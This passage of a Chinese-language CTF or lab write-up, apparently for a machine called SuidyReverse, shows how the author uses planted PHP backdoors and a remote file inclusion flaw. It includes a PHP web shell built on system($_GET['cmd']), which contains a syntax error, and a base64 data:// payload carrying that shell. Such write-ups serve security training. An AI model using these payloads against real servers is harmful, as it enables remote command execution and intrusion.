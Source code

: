 没弹成功

ls看下有什么东西

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.003.png)

```Bash
mysuperbackdoor.php
simple-backdoor.php
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.004.png)

读一下文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.005.png)

我测，38万条file parameter is my friend.，差点给我卡司机

当把simple-backdoor.php 作为File参数时

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.006.png)

而且也可以使用cmd参数

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.007.png)

## 3. RFL利用反弹shell

可能这里存在文件包含

发现存在远程文件包含

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.008.png)

尝试远程包含get马

发现解析不了

```Bash
<?php
system($\_GET['cmd']);
echo 'okok');
?>
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.009.png)

### 3.1. 利用data伪协议试试

参考：[3.quick](https://kv86gpc7nq5.feishu.cn/wiki/OBfkw1zIjiSgWxkGSdbcKUU1n2h#share-ZmKidIwJho6caLxWO4tcT1K3nah)

```Bash
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg==
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.010.png)
